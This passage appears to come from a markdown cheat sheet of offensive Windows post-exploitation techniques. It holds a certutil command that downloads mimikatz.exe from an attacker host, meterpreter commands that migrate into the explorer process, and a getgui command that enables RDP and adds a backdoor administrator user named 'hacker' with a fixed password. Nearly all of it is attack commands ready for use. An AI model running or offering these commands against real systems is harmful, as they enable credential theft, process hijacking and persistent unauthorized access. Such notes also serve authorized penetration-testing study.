 - __`certutil - urlcache -f http://<attacker>/mimikatz.exe mimikatz.exe`__
  - __Windows utilities can be used to download files from a remote web server, Same as wget in linux__
 
- __`pgrep explorer`__
  - __`migrate <process_id>`__
 
  # Windows Persistence via RDP
 
- __Down below is a meterpreter command used to enable the RDP service if it is disable and create a new user__
- __This `hacker` user is added in `Remote Desktop Users` and `Administrators` group__
  - __`run getgui -e -u hacker -p hacker@123321`__
  - > __Note: You require elevated privileges in order to establish persistence on a Windows system.__
